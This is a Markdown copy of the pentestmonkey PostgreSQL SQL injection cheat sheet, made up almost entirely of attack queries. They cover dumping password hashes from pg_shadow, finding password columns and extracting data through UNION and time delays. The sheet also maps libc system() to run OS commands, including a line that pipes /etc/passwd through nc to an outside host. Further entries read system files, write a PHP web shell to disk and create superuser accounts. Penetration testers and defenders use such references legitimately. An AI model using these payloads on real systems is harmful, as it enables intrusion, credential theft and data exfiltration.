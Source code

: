 # Postgres Injection Cheat Sheet

_source: [http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)_

## Version
```
SELECT version()
```

## Comments
```
SELECT 1; –comment
SELECT /*comment*/1;
```

## Current User
```
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```

## List Users
```
SELECT usename FROM pg_user
```

## List Password Hashes
```
SELECT usename, passwd FROM pg_shadow -- priv
```

## Password Cracker
```
MDCrack can crack PostgreSQL's MD5-based passwords.
```

## List Privileges
```
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
```

## List DBA Accounts
```
SELECT usename FROM pg_user WHERE usesuper IS TRUE
```

## Current Database
```
SELECT current_database()
```

## List Databases
```
SELECT datname FROM pg_database
```

## List Columns
```
SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE 'public')
```

## List Tables
```
SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN ('r','') AND n.nspname NOT IN ('pg_catalog', 'pg_toast') AND pg_catalog.pg_table_is_visible(c.oid)
```

## Find Tables From Column Name
```
If you want to list all the table names that contain a column LIKE '%password%':SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE 'public') AND attname LIKE '%password%';
```

## Select Nth Row
```
SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0; — rows numbered from 0
SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1;
```

## Select Nth Char
```
SELECT substr('abcd', 3, 1); — returns c
```

## Bitwise AND
```
SELECT 6 & 2; — returns 2
SELECT 6 & 1; –returns 0
```

## ASCII Value -> Char
```
SELECT chr(65);
```

## Char -> ASCII Value
```
SELECT ascii('A');
```

## Casting
```
SELECT CAST(1 as varchar);
SELECT CAST('1' as int);
```

## String Concatenation
```
SELECT 'A' || 'B'; — returnsAB
```

## If Statement
```
IF statements only seem valid inside functions, so aren't much use for SQL injection.  See CASE statement instead.
```

## Case Statement
```
SELECT CASE WHEN (1=1) THEN 'A' ELSE 'B' END; — returns A
```

## Avoiding Quotes
```
SELECT CHR(65)||CHR(66); — returns AB
```

## Time Delay
```
SELECT pg_sleep(10); — postgres 8.2+ only
CREATE OR REPLACE FUNCTION sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' language 'C' STRICT; SELECT sleep(10); –priv, create your own sleep function.  Taken from here .
```

## Make DNS Requests
```
Generally not possible in postgres.  However if contrib/dblinkis installed (it isn't by default) it can be used to resolve hostnames (assuming you have DBA rights):

SELECT * FROM dblink('host=put.your.hostname.here user=someuser  dbname=somedb', 'SELECT version()') RETURNS (result TEXT);

Alternatively, if you have DBA rights you could run an OS-level command (see below) to resolve hostnames, e.g. "ping pentestmonkey.net".
```

## Command Execution
```
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT; — privSELECT system('cat /etc/passwd | nc 10.0.0.1 8080'); — priv, commands run as postgres/pgsql OS-level user
```

## Local File Access
```
CREATE TABLE mydata(t text);
COPY mydata FROM '/etc/passwd'; — priv, can read files which are readable by postgres OS-level user
…' UNION ALL SELECT t FROM mydata LIMIT 1 OFFSET 1; — get data back one row at a time
…' UNION ALL SELECT t FROM mydata LIMIT 1 OFFSET 2; — get data back one row at a time …
DROP TABLE mytest mytest;Write to a file:

CREATE TABLE mytable (mycol text);
INSERT INTO mytable(mycol) VALUES ('<? pasthru($_GET[cmd]); ?>');
COPY mytable (mycol) TO '/tmp/test.php'; –priv, write files as postgres OS-level user.  Generally you won't be able to write to the web root, but it's always work a try.
– priv user can also read/write files by mapping libc functions
```

## Hostname, IP Address
```
SELECT inet_server_addr(); — returns db server IP address (or null if using local connection)
SELECT inet_server_port(); — returns db server IP address (or null if using local connection)
```

## Create Users
```
CREATE USER test1 PASSWORD 'pass1'; — priv
CREATE USER test1 PASSWORD 'pass1' CREATEUSER; — priv, grant some privs at the same time
```

## Drop Users
```
DROP USER test1; — priv
```

## Make User DBA
```
ALTER USER test1 CREATEUSER CREATEDB; — priv
```

##  Location of DB files
```
SELECT current_setting('data_directory'); — priv
SELECT current_setting('hba_file'); — priv
```

## Default/System Databases
```
template0
template1
```
